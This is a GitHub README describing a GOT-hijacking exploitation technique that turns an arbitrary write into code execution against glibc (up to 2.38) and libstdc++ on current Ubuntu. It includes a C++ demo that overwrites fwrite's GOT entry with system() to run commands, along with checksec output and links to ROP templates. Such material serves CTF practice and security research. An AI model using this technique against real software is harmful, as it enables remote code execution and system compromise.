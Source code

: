 # Libc-GOT-Hijacking 

Transform arbitrary write to RCE.
Libc makes it full RELRO at 2.39 so this skill doesn't work for glibc-2.39+.
However, it works for the libstdc++ on the latest Ubuntu LTS.

This is a userspace attacking skill: If you can write arbitrary memory space, you can use this method to execute arbitrary code. 

> You only need to know the base address of Glibc

# Update (Dec 17th., 2024)

While exploiting a CTF challenge, I found `libstdc++` is a juicy target of this technique. It's still usable on the latest LTS-ubuntu(24.04).

```sh
[14:26:12] n132 :: xps  ➜  ~/Downloads/FL_Support_Center » pwn checksec /lib/x86_64-linux-gnu/libstdc++.so.6
[*] '/lib/x86_64-linux-gnu/libstdc++.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

A simple way to get a shell is just to modify `fread/fwrite` got to `system` and `cin/cout` the string `/bin/sh`. But if ROP is what we want, we can do libc-got-hijacking (ROP over GOT) (even though it's unnecessary, it's a general solution!) 

Here is a demo:
```c
[18:34:04] n132 :: xps  ➜  ~/demo » cat ./rce.cpp && g++ ./rce.cpp -o ./rce && echo "id" | ./rce
#include <iostream>
int main(){
    // Hijack fwrite@got[plt] to system
    // cout gonna run arbitrary commands
    int num = 915;
    std::string str;
    size_t libc_base = (size_t)system-0x00058740;
    size_t * add_of_del_got = (size_t *)(libc_base + 0x277000 + 0x400000 + num*8);
    * add_of_del_got = (size_t )system;
    std::cin >> str;
    std::cout << str << std::endl;
}
uid=1000(n132) gid=1000(n132) groups=1000(n132),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),114(lpadmin),984(docker)
```

## glibc (2.36-2.38)

Compared to glibc<=2.35 there is mitigation implemented, which forbids the methods for the old library. However, we designed a method to bypass it and execute arbitrary code by 
once arbitrary write on Glibc's GOT table. This method performs Return Oriented Programming (ROP) attack on the Global Offset Table (GOT). 

![AttackFlow](./Img/AttackFlow.png)


You can find details, templates, demos, and everything you want in: [Details][0] and [Templates][3]


## glibc (unk-2.35)


I learned the original method from [Sammy Hajhamid][2] also the methods for glibc <=2.35 are inspired by his work.

Based on his work, We designed a method to execute arbitrary code by once arbitrary write on Glibc's GOT table. The method uses `PLT_0` to push `libc_exe_address` to the stack and then use `POP RSP, RET` to execute our `ROPchain`.

You can find details, templates, demos, and everything you want in: [Details][1] and [Templates][4]

# Acknowledgments

- Great job [@swing][5] on the impressive work with glibc >2.35!

- Appreciate the original work done by @pepsipu.

# Reference link
- [@pepsipu's Method][2]


[0]: ./Post/README.md
[1]: ./Pre/README.md
[2]: https://hackmd.io/@pepsipu/SyqPbk94a
[3]: ./Post/one_punch.py
[4]: ./Pre/templates.md
[5]: https://bestwing.me/
